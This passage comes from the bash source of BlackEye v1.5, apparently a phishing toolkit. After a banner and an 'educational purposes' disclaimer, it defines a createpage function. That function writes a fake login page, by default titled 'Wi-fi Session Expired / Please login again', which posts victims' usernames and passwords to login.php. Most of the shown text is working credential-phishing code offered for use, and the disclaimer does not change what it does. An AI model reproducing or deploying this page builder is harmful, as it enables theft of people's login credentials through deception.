   
 printf "     \e[101m\e[1;77m:: Disclaimer: Developers assume no liability and are not    ::\e[0m\n" 
 printf "     \e[101m\e[1;77m:: responsible for any misuse or damage caused by BlackEye.  ::\e[0m\n" 
 printf "     \e[101m\e[1;77m:: Only use for educational purporses!!                      ::\e[0m\n" 
 printf "\n" 
 printf "     \e[101m\e[1;77m::     BLACKEYE v1.5! By @suljot_gjoka & @thelinuxchoice     ::\e[0m\n" 
 printf "\n" 
 } 
  
 createpage() { 
 default_cap1="Wi-fi Session Expired" 
 default_cap2="Please login again." 
 default_user_text="Username:" 
 default_pass_text="Password:" 
 default_sub_text="Log-In" 
  
 read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 1 (Default: Wi-fi Session Expired): \e[0m' cap1 
 cap1="${cap1:-${default_cap1}}" 
  
 read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Title 2 (Default: Please login again.): \e[0m' cap2 
 cap2="${cap2:-${default_cap2}}" 
  
 read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Username field (Default: Username:): \e[0m' user_text 
 user_text="${user_text:-${default_user_text}}" 
  
 read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Password field (Default: Password:): \e[0m' pass_text 
 pass_text="${pass_text:-${default_pass_text}}" 
  
 read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Submit field (Default: Log-In): \e[0m' sub_text 
 sub_text="${sub_text:-${default_sub_text}}" 
  
 echo "<!DOCTYPE html>" > sites/create/login.html 
 echo "<html>" >> sites/create/login.html 
 echo "<body bgcolor=\"gray\" text=\"white\">" >> sites/create/login.html 
 IFS=$'\n' 
 printf '<center><h2> %s <br><br> %s </h2></center><center>\n' $cap1 $cap2 >> sites/create/login.html 
 IFS=$'\n' 
 printf '<form method="POST" action="login.php"><label>%s </label>\n' $user_text >> sites/create/login.html 
 IFS=$'\n' 
 printf '<input type="text" name="username" length=64>\n' >> sites/create/login.html 
 IFS=$'\n' 
 printf '<br><label>%s: </label>' $pass_text >> sites/create/login.html 
 IFS=$'\n' 
 printf '<input type="password" name="password" length=64><br><br>\n' >> sites/create/login.html 
 IFS=$'\n' 
 printf '<input value="%s" type="submit"></form>\n' $sub_text >> sites/create/login.html 
 printf '</center>' >> sites/create/login.html 
 printf '<body>\n' >> sites/create/login.html 
 printf '</html>\n' >> sites/create/login.html 
  